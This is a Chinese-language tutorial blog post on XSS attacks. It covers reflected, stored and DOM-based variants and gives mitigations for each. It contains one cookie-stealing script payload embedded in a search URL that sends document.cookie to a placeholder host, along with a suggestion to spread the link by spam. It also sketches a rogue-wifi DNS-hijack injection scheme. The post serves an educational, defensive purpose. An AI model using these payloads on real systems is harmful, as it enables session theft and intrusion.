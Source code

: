 ```yaml
---
title: xss攻击
date: 2017-10-17 09:00:30
tags: [安全, xss]
categories: 其它
---
```


XSS（cross-site scripting跨域脚本攻击）攻击是最常见的web攻击，其重点是“跨域”和“客户端执行”。XSS攻击分为三种，分别是：
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

###### 1、Reflected XSS
基于反射的XSS攻击，主要依靠站点服务端返回脚本，再客户端触发执行从而发起Web攻击。

> 例子

> 1、做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

> 2、在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。

> 3、当前端页面没有对返回的数据进行过滤，直接显示在页面上，这时就会alert那个字符串出来。

> 4、进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```
安全措施
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

###### 2、Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。

> 例子

>1. 发一篇文章，里面包含了恶意脚本

```
今天天气不错啊！<script>alert('handsome boy')</script>
```
> 2. 后端没有对文章进行过滤，直接保存文章内容到数据库。

> 3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

安全措施
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标
签，将特殊字符转换成HTML编码。

###### 3、DOM-based or local XSS
基于DOM或本地的XSS攻击。一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

> 例子
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

![image](http://note.youdao.com/yws/public/resource/b9cdada69234d36736d09235b516171c/xmlnote/6D0B1492A8EA43BC83431AB18AFB4D8D/5307)

安全措施
使用HTTPS!